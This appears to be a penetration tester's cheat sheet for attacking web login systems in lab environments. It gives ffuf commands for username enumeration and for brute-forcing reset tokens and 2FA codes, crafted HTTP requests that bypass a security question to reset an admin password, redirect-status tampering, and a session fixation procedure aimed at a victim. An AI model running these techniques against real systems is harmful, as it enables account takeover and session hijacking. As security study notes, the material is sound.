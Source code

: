 # Authentication Vulnerabilities
## Login Forms
### Enumerating Users
1. Test to see if you get different error messages when providing a valid username & invalid password, compared to providing both invalid username & invalid password. 
	- If you do get different errors, you can enumerate usernames (can also do this on the register form):
```shell
ffuf -w xato-net-10-million-usernames.txt -u http://www.trilocor.local/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```


#### Test Default Credentials
1. First, identify the software being used
2. Lookup software to see if it uses default password and what they are 
	- List of default credentials for softwares: (https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)
3. Test passwords on the usernames found from previous step


#### Brute-Force Password Reset Tokens (else move to next section)
Once a username is found, try to reset their password, and check if it asks to supply a reset token for that user. If so, brute-force the reset token:
```shell
seq -w 0 9999 > tokens.txt
```
```shell
ffuf -w tokens.txt -u http://www.trilocor.local/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
- If it isn't displayed in the URL, refer to previous `ffuf` command and send as POST data
##### If a security prompt/question is required to reset a password:
```http
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

We can try to change the request to directly just skip the prompt and change the password:
```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```




#### Brute-Force 2FA Codes
After gaining credential pair, if you need a 2FA code, you can attempt to brute force this as well:
```shell
ffuf -w tokens.txt -u http://www.trilocor.local/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=0sm6tj93knc494ulmtaiglc6n9" -d "otp=FUZZ" -fr "Invalid 2FA Code" -t 60
```
- If this doesn't work, intercept the request for this page in Burp, send to repeater, change the request to a `GET` request and change the destination to the users profile (e.g. `profile.php` or the admin interface `admin.php`)


## Unauthorized Pages
### `302` Redirected / Targeting Restricted Pages
Any time you get a `302` redirect (or redirected in general) while attempting to access a page:
1. Intercept the request in Burp
2. Right-click and select `Do intercept` -> `Response to this request`
3. Forward request and change the status code from `302 Found` to `200 OK` in the response
4. Forward the response and check browser to see if the page displayed


### Not Authorized to Other Pages While Logged In
If you're logged in and trying to gain access to a page (`/admin`) but are unauthorized, try:
1. Remove your `uid` (or other form of identification) from our request to `/admin`
2. If you are sent back to the login screen and have the same `PHPSESSID` cookie, we can assume the parameter `uid` is related to authentication
3. Brute-force the `uid` of the admin to gain access to the page


## Weak / Predictable Session Tokens
If you see a weak / predictable session token / cookie, you can:
1. Brute force it if it is weak / short, or;
2. Decrypt it and analyze its encryption mechanism, then change the info that it is encrypting to admin


## Session tokens aren't unique to each session
If your session cookie value doesn't change AFTER signing in:
1. Obtain a valid session token by signing in (ex: `sid=a1b2c3d4e5f6`)
2. Log out
3. Send the victim a link with your session token (ex: `http://vulnerable.htb/?sid=a1b2c3d4e5f6 )
	- When they click the link, their session cookie is now this value
4. Now attempt to access a resource you would access when you're logged in with the same session token to hijack the victim's session

